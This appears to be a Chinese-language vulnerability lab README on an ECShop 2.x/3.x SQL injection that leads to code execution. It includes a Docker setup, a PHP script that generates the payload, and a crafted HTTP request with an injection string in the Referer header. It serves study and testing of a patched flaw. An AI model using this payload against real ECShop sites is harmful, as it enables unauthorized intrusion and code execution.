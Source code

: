 # ECShop 2.x/3.x SQL注入/任意代码执行漏洞

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- http://ringk3y.com/2018/08/31/ecshop2-x代码执行/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。如图：

![](0.png)

## 漏洞复现

我编写了一个脚本，可以生成2.x和3.x的POC：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

2.x的执行结果

![](1.png)

3.x的执行结果：

![](2.png)
